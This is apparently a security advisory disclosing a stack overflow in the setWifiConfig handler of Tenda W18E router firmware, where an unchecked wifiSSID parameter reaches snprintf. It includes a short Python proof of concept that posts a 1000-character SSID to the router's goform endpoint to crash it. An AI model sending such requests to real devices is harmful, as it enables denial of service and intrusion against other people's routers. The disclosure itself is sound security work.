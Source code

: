 # Tenda W18E setWifiConfig
### Overview
vendor: Tenda

product: W18E

version: V16.01.0.13(3742)

type: Stack Overflow
### Vulnerability Description
Tenda W18E V16.01.0.13(3742) were discovered to contain a stack overflow in the setWifiConfig function.
### Vulnerability details
In function setWifiConfig line 37、38, it reads in a user-provided parameter `wifiSSID`, and the variable `string` is passed to the `snprintf` function without any length check, which may overflow the stack-based buffer `v15`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/2.png)
![](images/1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "wifiSSID": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
